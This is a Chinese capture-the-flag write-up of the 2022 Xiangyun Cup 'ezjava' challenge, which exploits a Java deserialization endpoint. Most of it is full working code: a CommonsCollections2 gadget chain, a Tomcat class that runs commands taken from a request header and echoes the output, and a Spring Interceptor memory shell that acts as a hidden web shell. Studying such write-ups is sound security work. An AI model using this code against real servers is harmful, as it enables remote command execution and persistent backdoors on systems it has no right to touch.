





# 2022祥云杯--ezjava

## 前言

这题算是当时祥云杯的签到题，考察`CommonsCollections`链、`Tomcat`全局回显和`Spring`内存马的相关知识，都是些基础知识，作为本专区系列的第一篇倒也恰到好处。

## 第一种解法：Tomcat全局回显

首先从题目链接可以拿到一个 jar 包，直接丢进 idea 里面添加为库就可以看反编译后的代码了


`/myTest`路由读取传入的 base64 编码数据进行解码，然后进行反序列化，同时还可以看到存在`CommonsCollections 4.0`版本的依赖


那很显然就是考 cc 链了，通过`CommonsCollections2`生成序列化数据进行 base64 编码发送


成功弹出计算器，证明我们链子已经打通了，不过当时的题目环境是不出网，也没有静态文件可以写入，因此我们需要通过 Tomcat 进行全局回显或者注入内存马进行命令回显。

我们先说第一种方法：通过 Tomcat 进行全局回显，该知识点在《反序列化注入内存马》一文已经学过，直接写出`TomcatEcho`类利用代码
```java
package com.memoryshell.tomcat;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.connector.Connector;
import org.apache.catalina.core.StandardContext;
import org.apache.coyote.ProtocolHandler;
import org.apache.coyote.RequestGroupInfo;
import org.apache.coyote.RequestInfo;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.List;

/**
 * Created by dotast on 2022/12/5 12:28
 */
public class TomcatEcho extends AbstractTranslet {
    public TomcatEcho(){
        try{
            // 获取StandardContext
            org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase = (org.apache.catalina.loader.WebappClassLoaderBase)Thread.currentThread().getContextClassLoader();
            StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
            // 获取ApplicationContext
            Field context = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("context");
            context.setAccessible(true);
            org.apache.catalina.core.ApplicationContext applicationContext = (org.apache.catalina.core.ApplicationContext)context.get(standardContext);
            // 获取StandardService
            Field service = Class.forName("org.apache.catalina.core.ApplicationContext").getDeclaredField("service");
            service.setAccessible(true);
            org.apache.catalina.core.StandardService standardService = (org.apache.catalina.core.StandardService)service.get(applicationContext);
            // 获取Connectors
            Field connectorsField = Class.forName("org.apache.catalina.core.StandardService").getDeclaredField("connectors");
            connectorsField.setAccessible(true);
            Connector[] connectors = (Connector[]) connectorsField.get(standardService);
            Connector connector = connectors[0];
            // 获取ConnectionHandler
            ProtocolHandler protocolHandler = connector.getProtocolHandler();
            Field handler = Class.forName("org.apache.coyote.AbstractProtocol").getDeclaredField("handler");
            handler.setAccessible(true);
            org.apache.tomcat.util.net.AbstractEndpoint.Handler abstractEndpointHandler = (org.apache.tomcat.util.net.AbstractEndpoint.Handler)handler.get(protocolHandler);
            // 获取RequestGroupInfo
            Field globalField = Class.forName("org.apache.coyote.AbstractProtocol$ConnectionHandler").getDeclaredField("global");
            globalField.setAccessible(true);
            RequestGroupInfo requestGroupInfo = (RequestGroupInfo)globalField.get(abstractEndpointHandler);
            // 获取process
            Field processorsField = Class.forName("org.apache.coyote.RequestGroupInfo").getDeclaredField("processors");
            processorsField.setAccessible(true);
            List<RequestInfo> requestInfoList = (List<RequestInfo>) processorsField.get(requestGroupInfo);
            // 获取request和response
            Field requestField = Class.forName("org.apache.coyote.RequestInfo").getDeclaredField("req");
            requestField.setAccessible(true);
            for(RequestInfo requestInfo: requestInfoList){
                org.apache.coyote.Request request = (org.apache.coyote.Request) requestField.get(requestInfo);
                //通过org.apache.coyote.Request的Notes属性获取继承HttpServletRequest的org.apache.catalina.connector.Request
                org.apache.catalina.connector.Request http_request = (org.apache.catalina.connector.Request) request.getNote(1);
                org.apache.catalina.connector.Response http_response = http_request.getResponse();
                String cmd =  http_request.getHeader("cmd");
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                ByteArrayOutputStream bao = new ByteArrayOutputStream();
                byte[] bytes = new byte[1024];
                int a = -1;
                while((a = inputStream.read(bytes)) !=-1){
                    bao.write(bytes, 0, a);
                }
                http_response.getWriter().write(new String(bao.toByteArray()));
                http_response.getWriter().flush();
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

然后通过`CommonsCollections2`链子加载`TomcatEcho`类的字节码
```java
package com.serialize;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * Created by dotast on 2022/10/9 10:51
 */
public class CommonsCollections2 {
    public static void main(String[] args) throws Exception{
        CommonsCollections2 commonsCollections2 = new CommonsCollections2();
        commonsCollections2.serialize();
        //commonsCollections2.unserialize();
    }

    public void serialize() throws Exception {
        /*
        String cmd = "Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        // 创建evailClass
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass evailClass = pool.makeClass("evailClass");
        // 将代码插进static{}
        evailClass.makeClassInitializer().insertBefore(cmd);
        evailClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 转换成字节码
        byte[] classBytes = evailClass.toBytecode();
        System.out.println(Arrays.toString(classBytes));
        */

        byte[] classBytes = getBytes();
        byte[][] targetByteCodes = new byte[][]{classBytes};

        // 反射修改
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, targetByteCodes);

        Field name = templates.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "name");

        Field _class = templates.getClass().getDeclaredField("_class");
        _class.setAccessible(true);
        _class.set(templates, null);

        // 构造InvokerTransformer
        Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
        InvokerTransformer invokerTransformer = (InvokerTransformer) constructor.newInstance("newTransformer");
        TransformingComparator transformingComparator = new TransformingComparator<>(invokerTransformer);
        PriorityQueue priorityQueue = new PriorityQueue<>(1);
        priorityQueue.add(1);
        priorityQueue.add(1);
        // 通过反射修改queue
        Object[] objectsArrary = new Object[]{templates,1};
        Field queue = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        queue.setAccessible(true);
        queue.set(priorityQueue,objectsArrary);
        // 通过反射将comparator修改为前面的链子
        Field comparator = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        comparator.setAccessible(true);
        comparator.set(priorityQueue, transformingComparator);

        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(priorityQueue);

    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }

    public static byte[] getBytes() throws Exception{
        InputStream inputStream = new FileInputStream(new File("./target/classes/com/memoryshell/tomcat/TomcatEcho.class"));
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        int a = -1;
        while((a = inputStream.read())!=-1){
            bao.write(a);
        }
        byte[] bytes = bao.toByteArray();
        return bytes;
    }
}
```

再把写入的序列化数据文件 1.txt 进行 base64 编码发送


成功实现回显，但这里还有个小问题，我们可以看到控制台报了一条错误


这比不优雅，我们探究一下报错原因，打上相关断点，最后跟到`getOutputStream()`方法


可以看到`this.usingWriter`的值已经为 true，进入到抛出异常语句。那么他是怎么被设置为 true 的呢？我们回看到`getWriter()`方法代码


可以看到在调用到`getWriter()`方法后，会将`usingWriter`属性设置为 true，因此执行到后面抛出异常。原因大概是我们已经通过`response.getWriter().write(xxx)`将内容写到返回的数据流中，而到后面`myTest()`方法最后又进行了一次 return 操作，总共调用了两次。

最简单的解决办法就是在调用`getWriter()`方法后，通过反射将`usingWriter`属性修改为 false，相关实现如下：
```java
package com.memoryshell.tomcat;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.connector.Connector;
import org.apache.catalina.core.StandardContext;
import org.apache.coyote.ProtocolHandler;
import org.apache.coyote.RequestGroupInfo;
import org.apache.coyote.RequestInfo;

import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.List;

/**
 * Created by dotast on 2022/12/5 12:28
 */
public class TomcatEcho extends AbstractTranslet {
    public TomcatEcho(){
        try{
            // 获取StandardContext
            org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase = (org.apache.catalina.loader.WebappClassLoaderBase)Thread.currentThread().getContextClassLoader();
            StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
            // 获取ApplicationContext
            Field context = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("context");
            context.setAccessible(true);
            org.apache.catalina.core.ApplicationContext applicationContext = (org.apache.catalina.core.ApplicationContext)context.get(standardContext);
            // 获取StandardService
            Field service = Class.forName("org.apache.catalina.core.ApplicationContext").getDeclaredField("service");
            service.setAccessible(true);
            org.apache.catalina.core.StandardService standardService = (org.apache.catalina.core.StandardService)service.get(applicationContext);
            // 获取Connectors
            Field connectorsField = Class.forName("org.apache.catalina.core.StandardService").getDeclaredField("connectors");
            connectorsField.setAccessible(true);
            Connector[] connectors = (Connector[]) connectorsField.get(standardService);
            Connector connector = connectors[0];
            // 获取ConnectionHandler
            ProtocolHandler protocolHandler = connector.getProtocolHandler();
            Field handler = Class.forName("org.apache.coyote.AbstractProtocol").getDeclaredField("handler");
            handler.setAccessible(true);
            org.apache.tomcat.util.net.AbstractEndpoint.Handler abstractEndpointHandler = (org.apache.tomcat.util.net.AbstractEndpoint.Handler)handler.get(protocolHandler);
            // 获取RequestGroupInfo
            Field globalField = Class.forName("org.apache.coyote.AbstractProtocol$ConnectionHandler").getDeclaredField("global");
            globalField.setAccessible(true);
            RequestGroupInfo requestGroupInfo = (RequestGroupInfo)globalField.get(abstractEndpointHandler);
            // 获取process
            Field processorsField = Class.forName("org.apache.coyote.RequestGroupInfo").getDeclaredField("processors");
            processorsField.setAccessible(true);
            List<RequestInfo> requestInfoList = (List<RequestInfo>) processorsField.get(requestGroupInfo);
            // 获取request和response
            Field requestField = Class.forName("org.apache.coyote.RequestInfo").getDeclaredField("req");
            requestField.setAccessible(true);
            for(RequestInfo requestInfo: requestInfoList){
                org.apache.coyote.Request request = (org.apache.coyote.Request) requestField.get(requestInfo);
                //通过org.apache.coyote.Request的Notes属性获取继承HttpServletRequest的org.apache.catalina.connector.Request
                org.apache.catalina.connector.Request http_request = (org.apache.catalina.connector.Request) request.getNote(1);
                org.apache.catalina.connector.Response http_response = http_request.getResponse();
                String cmd =  http_request.getHeader("cmd");
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                ByteArrayOutputStream bao = new ByteArrayOutputStream();
                byte[] bytes = new byte[1024];
                int a = -1;
                while((a = inputStream.read(bytes)) !=-1){
                    bao.write(bytes, 0, a);
                }
                http_response.getWriter().write(new String(bao.toByteArray()));
                http_response.getWriter().flush();
                Field usingWriterField = http_response.getClass().getDeclaredField("usingWriter");
                usingWriterField.setAccessible(true);
                usingWriterField.set(http_response, Boolean.FALSE);
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

## 第二种解法：注入Spring内存马

这里我们注入`Interceptor`内存马
```java
package com.memoryshell.spring;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.ArrayList;

/**
 * Created by dotast on 2022/12/6 16:21
 */
public class SpringInterceptorInject extends AbstractTranslet implements HandlerInterceptor {

    static {
        try{
            // 获取上下文环境
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            // 获取adaptedInterceptors属性
            org.springframework.web.servlet.handler.AbstractHandlerMapping abstractHandlerMapping = (org.springframework.web.servlet.handler.AbstractHandlerMapping)context.getBean(RequestMappingHandlerMapping.class);
            Field adaptedInterceptorsField = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
            adaptedInterceptorsField.setAccessible(true);
            ArrayList<Object> adaptedInterceptors = (ArrayList<Object>)adaptedInterceptorsField.get(abstractHandlerMapping);
            // 添加evilInterceptor
            SpringInterceptorInject springInterceptorInject = new SpringInterceptorInject();
            adaptedInterceptors.add(springInterceptorInject);
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        try{
            String cmd = request.getParameter("cmd");
            if(cmd != null){
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                ByteArrayOutputStream bao = new ByteArrayOutputStream();
                byte[] bytes = new byte[1024];
                int a = -1;
                while((a = inputStream.read(bytes))!=-1){
                    bao.write(bytes,0,a);
                }
                response.getWriter().write(new String(bao.toByteArray()));
                response.getWriter().flush();
            }else {
                response.sendError(404);
            }
            return true;
        }catch (Exception e){
            e.printStackTrace();
        }
        return false;
    }
}
```

然后通过`CommonsCollections2`链子加载`SpringInterceptorInject`类的字节码，再经过 base64 编码发送


命令执行成功
